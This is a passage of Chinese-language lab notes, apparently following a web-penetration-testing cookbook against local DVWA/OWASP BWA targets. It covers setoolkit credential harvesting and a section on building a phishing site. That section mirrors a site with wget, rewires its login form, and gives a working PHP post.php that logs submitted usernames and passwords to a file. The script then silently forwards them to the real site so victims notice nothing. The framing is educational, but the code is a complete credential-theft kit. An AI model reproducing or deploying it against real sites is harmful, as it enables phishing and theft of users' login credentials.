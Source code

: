 3. 在win7虚拟机中访问http://192.168.254.130，总是显示Apache2 Debian Default Page，百思不得其解。在物理主机上访问http://192.168.254.130可以显示dvwa登录页面，输入用户名/口令，点击login，页面再次重定向到真正的dvwa页面，输入的用户名口令显示在了kali虚拟机中。

4. 按ctrl+c后，setoolkit提示了结果文件存放位置

![](pictures/setoolkit_2.png)

5. 书中介绍的index.html和post.php并未找到。



## 9.2  使用保存的页面创建钓鱼网站

使用set仅仅复制登录界面，在正确输入密码后再次重定向到登录页面会使用户产生怀疑。本节使用wget保存的站点，几乎含有所有导航，在输入正确用户名/密码后会登录原始站点。

1. 使用wget保存站点

```bash
wget -r -P bodgeit_offline/ http://192.168.2.167/bodgeit/
```

2. 启动apache服务，`service apache2 start`，并将下载的站点复制到apache根目录，

```bash
cp -r bodgeit_offline/192.168.2.167/bodgeit/ /var/www/html/
```

3. vim修改/var/www/html/bodgeit/中的login.jsp文件，寻找下面的代码：

```html
<h3>Login</h3>
Please enter your credentials: <br/><br/>
<form method="POST">
```

修改为

```html
<h3>Login</h3>
Please enter your credentials: <br/><br/>
<form method="POST" action="post.php">
```

4. 在login.jsp相同目录下创建post.php文件，代码如下

```html
<?php
$file = 'passwords_C00kb00k.txt';
file_put_contents($file, print_r($_POST, true), FILE_APPEND);
$username=$_POST["username"];
$password=$_POST["password"];
$submit="Login"; ?>
<body onload="frm1.submit.click()">
<form name="frm1" id="frm1" method="POST"
action="http://192.168.2.167/bodgeit/login.jsp">
<input type="hidden" value="<?php echo $username;?>" name ="username">
<input type="hidden" value="<?php echo $password;?>" name ="password">
<input type="submit" value="<?php echo $submit;?>" name ="submit">
</form>
</body>
```
Web 服务器运行在 www-data 用户下,所以我们需要使这个用户为文件的所有者，便于它可被 web 服务器进程写入。


[owaspbwa]: http://192.168.2.167